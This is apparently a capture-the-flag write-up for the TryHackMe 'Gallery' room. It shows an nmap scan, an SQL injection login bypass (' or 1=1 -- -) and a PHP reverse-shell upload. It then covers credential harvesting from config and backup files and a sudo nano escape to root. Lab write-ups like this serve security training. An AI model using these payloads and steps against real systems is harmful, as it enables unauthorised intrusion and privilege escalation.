 # [Gallery](https://tryhackme.com/room/gallery666)

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Mon Feb 14 16:28:38 2022 as: nmap -vvv -p 80,8080 -sCV -oA init 10.10.137.122
Nmap scan report for 10.10.137.122
Host is up, received syn-ack (0.28s latency).
Scanned at 2022-02-14 16:28:52 +07 for 19s

PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: BBF0117BA685754DB6E81BA8AEEAD310
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Simple Image Gallery System
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 14 16:29:11 2022 -- 1 IP address (1 host up) scanned in 33.44 seconds
```

Port 80 is just the Apache2 Ubuntu Default Page, while port 8080 redirects us to `/gallery/login.php` on port 80.

![`/gallery/login.php`](login.png)

To disable the redirect, I tried saving `http://10.10.137.122:8080/` to a file, removed the line `<script>location.href="http://10.10.137.122/gallery/./login.php"</script><head>`, and viewed the changed page.

![`http://10.10.137.122:8080/` without redirect](8080.png)

Since port 8080 just redirects us to `/gallery/login.php`, I figured I should look at the login page first.
I tried logging in with `' or 1=1 -- -` as the username and got log in as Admin.
We also see that it's the same page as the one from port 8080.

Looking around, I found that on the "My Account" page, we can upload files.

![`/gallery/?page=user`](account.png)

I tried uploading a PHP reverse shell, intercepting the whole Update process and got the path to the uploaded file.

![path to uploaded PHP reverse shell](upload.png)

After setting up a listener, going to the uploaded should give us a shell as `www-data` on the machine.

Checking `/home` and `/etc/passwd`, we see 2 non-root users with shells on the machine: ubuntu & mike.

```sh
www-data@gallery:/home/mike$ ls -la /home
total 16
drwxr-xr-x  4 root root 4096 May 20  2021 .
drwxr-xr-x 23 root root 4096 Feb 12 21:42 ..
drwxr-xr-x  6 mike mike 4096 Aug 25 09:15 mike
drwx------  4 root root 4096 May 20  2021 ubuntu

www-data@gallery:/$ grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
mike:x:1001:1001:mike:/home/mike:/bin/bash
```

Looking in `/var/www/html/gallery`, we see that `initialize.php` contains database credentials which can be used to log into MySQL and enumerate the `gallery_db` database.

```sh
www-data@gallery:/var/www/html/gallery$ mysql -u gallery_user -p gallery_db
```

The `users` table contains admin's password hash.

Checking `/var/backup`, we have the directory `mike_home_backup`, inside which the file `.bash_history` contains mike's password which can be used to `su - mike`.

Checking mike's `sudo` privileges ...

```sh
mike@gallery:~$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

... we can run `/opt/rootkit.sh` as root. Looking at the file in question ...

```sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

... we see that `nano` can be run. After running `/bin/bash /opt/rootkit.sh` followed by `read` for `nano`, following [gtfobins](https://gtfobins.github.io/gtfobins/nano/#sudo), we can get a shell by pressing `ctrl+r`, `ctrl+x`, and running `reset; sh 1>&0 2>&0` to get a shell as root.
